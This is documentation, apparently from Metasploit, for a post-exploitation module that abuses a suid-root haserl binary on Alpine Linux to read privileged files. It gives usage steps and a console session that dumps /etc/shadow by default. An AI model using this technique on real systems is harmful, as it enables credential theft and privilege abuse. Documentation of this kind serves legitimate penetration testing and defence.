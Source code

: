 ## Vulnerable Application

[Haserl](http://haserl.sourceforge.net/) is an unmaintained tool to use LUA as CGI in web servers.
On Linux, when haserl is suid root, it will attempt to drop its privilege to the uid/gid of the owner of the cgi script,
similar to suexec in Apache.

Haserl could have been a thing of the past, but it's used in Alpine Linux'
[Alpine Configuration
Framework](https://wiki.alpinelinux.org/wiki/Alpine_Configuration_Framework_Design),
which is commonly used on this distribution.

This module exploits the fact that calling haserl on a file will make it not only change the effective UID,
but also display the content of the file.

### Prerequisites

1. Install Alpine Linux
2. Install haserl

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: `use post/linux/gather/haserl_read`
4. Set `SESSION`
5. Do: `run` or `exploit`
6. **Verify** that the file was successfully downloaded

## Options

### RFILE

Remote file to download, defaults to `/etc/shadow`.


## Scenarios

```
msf6 > use post/linux/gather/haserl_read 
msf6 post(linux/gather/haserl_read) > show options 

Module options (post/linux/gather/haserl_read):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   RFILE    /etc/shadow             yes       File to read
   SESSION  1                       yes       The session to run this module on.

msf6 post(linux/gather/haserl_read) > run

[!] SESSION may not be compatible with this module.
[+] Found set-uid haserl: /usr/bin/haserl-lua53
[+] Shadow saved in: /home/user/.msf4/loot/20210301204020_default_192.168.138.113_haserl_shadow_107368.txt
[*] Post module execution completed
msf6 post(linux/gather/haserl_read) >
```

## Reference
1. https://twitter.com/steaIth/status/1364940271054712842

